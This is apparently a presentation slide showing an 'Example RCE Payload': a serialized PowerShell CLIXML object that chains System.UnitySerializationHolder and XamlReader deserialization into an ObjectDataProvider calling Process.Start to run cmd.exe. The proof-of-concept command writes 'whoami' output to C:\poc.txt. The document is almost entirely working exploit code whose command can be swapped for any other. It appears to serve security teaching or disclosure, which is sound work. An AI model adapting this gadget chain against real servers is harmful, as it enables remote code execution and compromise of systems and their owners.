

# Example RCE Payload – Final Payload
<Obj N="Args" RefId="12">
    <TNRef RefId="0" />
    <LST>
        <Obj RefId="13">
            <MS>
                <S N="N">-Identity:</S>
                <!--Object type section-->
                <Obj N="V" RefId="14">
                    <TN RefId="2">
                    <T>System.ServiceProcess.ServiceController</T>
                        <T>System.Object</T>
                    </TN>
                    <ToString>Object</ToString>
                <!--Object type section end-->
                <!--Properties section-->
                    <Props>
                        <S N="Name">Type</S>
                        <Obj N="TargetTypeForDeserialization">
                            <TN RefId="2">
                                <T>System.Exception</T>
                                <T>System.Object</T>
                            </TN>
                            <MS>
                                <BA N="SerializationData">AAEAAAD/////AQAAAAAAAAAEAQAAAB9TeXN0ZW0uVW5pdHlTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAREYXRhCVVuaXR5VHlwZQxBc3NlbWJseU5hbWUBAAEIBgIAAAAgU3lzdGVtLldpbmRvd3MuTWFya3VwLlhhbWxSZWFkZXIEAAAABgMAAABYUHJlc2VudGF0aW9uRnJhbWV3b3JrLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNQs=</BA>
                            </MS>
                        </Obj>
                    </Props>
                <!--Properties section end-->
                <!--Payload section-->
                    <S>
                        <![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:System="clr-namespace:System;assembly=mscorlib" xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><System:String>cmd.exe</System:String><System:String>/c whoami > C:\\poc.txt</System:String> </ObjectDataProvider.MethodParameters> </ObjectDataProvider> </ResourceDictionary>]]>
                    </S>
                <!--Payload section end-->
                </Obj>
            </MS>
        </Obj>
    </LST>
</Obj>